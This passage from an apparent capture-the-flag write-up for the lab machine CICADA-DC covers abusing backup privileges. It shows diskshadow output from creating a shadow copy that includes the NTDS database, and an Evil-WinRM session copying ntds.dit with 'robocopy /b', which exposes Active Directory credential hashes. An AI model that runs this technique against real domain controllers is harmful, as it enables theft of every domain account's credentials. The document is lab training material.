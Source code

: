 ```powershell

* Including writer "COM+ REGDB Writer":
	+ Adding component: \COM+ REGDB

* Including writer "NTDS":
	+ Adding component: \C:_Windows_NTDS\ntds

Alias cdrive for shadow ID {c63d2ce7-8a1a-4729-baab-3742d97c847c} set as environment variable.
Alias VSS_SHADOW_SET for shadow set ID {92c97921-831e-4000-a85a-d8568a6d48c9} set as environment variable.
Inserted file Manifest.xml into .cab file meta.cab
Inserted file BCDocument.xml into .cab file meta.cab
Inserted file WM0.xml into .cab file meta.cab
Inserted file WM1.xml into .cab file meta.cab
Inserted file WM2.xml into .cab file meta.cab
Inserted file WM3.xml into .cab file meta.cab
Inserted file WM4.xml into .cab file meta.cab
Inserted file WM5.xml into .cab file meta.cab
Inserted file WM6.xml into .cab file meta.cab
Inserted file WM7.xml into .cab file meta.cab
Inserted file WM8.xml into .cab file meta.cab
Inserted file WM9.xml into .cab file meta.cab
Inserted file DisC9E5.tmp into .cab file meta.cab

Querying all shadow copies with the shadow copy set ID {92c97921-831e-4000-a85a-d8568a6d48c9}

	* Shadow copy ID = {c63d2ce7-8a1a-4729-baab-3742d97c847c}		%cdrive%
		- Shadow copy set: {92c97921-831e-4000-a85a-d8568a6d48c9}	%VSS_SHADOW_SET%
		- Original count of shadow copies = 1
		- Original volume name: \\?\Volume{fcebaf9b-0000-0000-0000-500600000000}\ [C:\]
		- Creation time: 10/9/2024 10:46:56 AM
		- Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
		- Originating machine: CICADA-DC.cicada.htb
		- Service machine: CICADA-DC.cicada.htb
		- Not exposed
		- Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
		- Attributes:  No_Auto_Release Persistent Differential

Number of shadow copies listed: 1
-> expose %cdrive% E:
-> %cdrive% = {c63d2ce7-8a1a-4729-baab-3742d97c847c}
The  drive letter is already in use.
Note: END BACKUP was not commanded, writers not notified BackupComplete.
DiskShadow is exiting.
```

Now lets again try to copy the `ntds.dit` file but with <mark style="background: #FF5582A6;">robocopy</mark> Tool, That basically work as copy command only but more forcefully.

```bash
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Videos> robocopy /b E:\Windows\ntds . ntds.dit

-------------------------------------------------------------------------------
   ROBOCOPY     ::     Robust File Copy for Windows
-------------------------------------------------------------------------------

  Started : Wednesday, October 9, 2024 10:47:20 AM
   Source : E:\Windows\ntds\
     Dest : C:\Users\emily.oscars.CICADA\Videos\

    Files : ntds.dit

  Options : /DCOPY:DA /COPY:DAT /B /R:1000000 /W:30

```